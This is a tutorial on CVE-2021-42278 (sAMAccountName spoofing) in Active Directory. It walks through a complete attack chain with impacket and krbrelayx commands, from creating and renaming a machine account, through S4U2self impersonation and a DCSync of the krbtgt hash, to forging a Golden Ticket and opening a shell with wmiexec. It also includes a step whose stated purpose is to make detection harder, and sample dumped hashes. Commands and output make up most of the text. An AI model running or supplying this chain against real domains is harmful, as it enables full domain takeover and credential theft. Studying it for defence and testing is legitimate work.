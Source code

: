 ## What is sAMAccountName spoofing ?

**sAMAccountName** is the unique ID for a user, it looks like this: NETBIOS\USERNAME.

Computer accounts should have a trailing \$ in their name (MYNETWORK\Computer\$).

However, until 2021 there was no validation to enforce this rule. This lack of validation led to **CVE-2021-42278, also known as sAMAccountName spoofing.**

By exploiting this, an attacker can rename a computer account so that its sAMAccountName matches that of a **Domain Controller (DC)**. Once this is done, Kerberos authentication can be tricked into treating the attacker-controlled computer as if it were the **DC itself.**

Why is this dangerous?
Because once you can impersonate the DC account, **you can escalate directly to domain admin privileges** and perform critical attacks like forging a Golden Ticket.

**But keep in mind that we need a user that has the right to create accounts in order to do the attack!**

## Example (with impacket tools and krbrelayx on UNIX-like systems):

#### sAMAccountName spoofing steps

These are the steps of the attack (I do imply that you already have the DC name and IP through enumeration and that you also have an account with the correct rights):

1. We need to create a computer account that will impersonate our target (DC):

```
python /usr/share/doc/python3-impacket/examples/addcomputer.py \
  -computer-name 'ControlledComputer$' \
  -computer-pass 'ComputerPassword' \
  -dc-host '<ip dc>' \
  -domain-netbios '<netbios>' \
  '<domain>/<user with right to create account>:<pass>'
```

We create a fake account with a simple password that will later become the fake DC.

2. We need to clear its SPNs. Why? When you create a new computer account (ControlledComputer\$), AD automatically assigns default SPNs (like HOST/ControlledComputer). If we don’t clear them before renaming the account to impersonate the DC, Kerberos could detect inconsistencies or conflicts with the real DC’s SPNs.

```
python krbrelayx/addspn.py \
  --clear \
  -t 'ControlledComputer$' \
  -d '<domain>' \
  -u '<AD>\<User>' \
  -p '<pass>' \
  '<ip>'
```

We still use the account that has the right to create accounts here.

3. Impersonate the DC by renaming our computer account to match the DC:

```
python /usr/share/doc/python3-impacket/examples/renameMachine.py \
  -current-name 'ControlledComputer$' \
  -new-name '<DC name without $>' \
  -dc-ip '<the ip of dc>' \
  '<domain>/<user>:<pass>'
```

Same user as usual.

4. Request a TGT.

First of all, don’t forget that working with Kerberos means that you need to be on the same local time!

```
timedatectl set-ntp off  
sudo ntpdate -u <ip of target>
```

This will set the same time as the target.

```
python /usr/share/doc/python3-impacket/examples/getTGT.py \
  -dc-ip '<ip of the dc>' \
  '<domain>/<Fake DC name set in step 3>:<the simple password set in step 1>'
```

5. Reset the computer name back (because we don’t need it anymore and it makes detection harder):

```
python /usr/share/doc/python3-impacket/examples/renameMachine.py \
  -current-name '<fake dc>' \           
  -new-name 'ControlledComputer$' \
  -dc-ip '<ip of the dc>' \
  '<domain>/<user>:<pass>'
```

We reuse the account with rights.

6. Use S4U2self to impersonate an account (example: Administrator):

```
KRB5CCNAME=<name of dc>.ccache 

python /usr/share/doc/python3-impacket/examples/getST.py \
  -self -impersonate 'Administrator' \
  -altservice 'cifs/<FAKE_DC.domain>' \
  -k -no-pass \
  -dc-ip '<ip of the dc>' \
  '<domain>/<FAKE_DC>'
```

Remember that this is still the Fake DC name set in step 3! (DC name without \$)

7. Perform DCSync with the forged ticket:

```
export KRB5CCNAME="<the ticket we obtained in step 6.ccache>"

python /usr/share/doc/python3-impacket/examples/secretsdump.py \
  -just-dc-user 'krbtgt' \
  -k -no-pass \
  -target-ip '<ip of the dc>' \
  -dc-ip '<ip of the dc>' \
  '<domain>/<user impersonated: Administrator for example>@<DC name without $.domain>'
```

We target krbtgt because this is the account hash we need in order to make a Golden Ticket.

If everything goes well, we might get some hashes:

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d392e902a67ba8e183135f229e385436:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d427015dbaa730ccfb5a58fb28e6dfeabde15c8e90caedbaa8ea84a0421bcc6e
krbtgt:aes128-cts-hmac-sha1-96:1e57ed1194e17a2a81be28d263f1c321
krbtgt:des-cbc-md5:fd40a2ec9dc76880
[*] Cleaning up... 
```
Perfect, we can now forge golden ticket !

#### Golden TIcket => SHELL.

We usually use AES256.

The only step remaining is to get the SID of the domain:

```
lookupsid.py \                                                   
  -k -no-pass \
  '<domain>/<user impersonated: Administrator for example>@<DC name without $.domain>' \
  -target-ip '<ip of the dc>'
```

Once we have it:

```
python /usr/share/doc/python3-impacket/examples/ticketer.py \
  -aesKey <AES256 hash> \
  -domain-sid '<SID>' \
  -domain '<domain>' \
  -user-id 500 \
  Administrator
```

User-id 500 if admin.

Then we import the ticket:

`export KRB5CCNAME=$(pwd)/<generated ticket.ccache>`

And use it! (example with a shell):

```
wmiexec.py -k -no-pass -dc-ip <ip of the dc> -target-ip <target of the shell> <domain>/<user impersonated: Administrator for example>@<DC NAME without $.local>
```
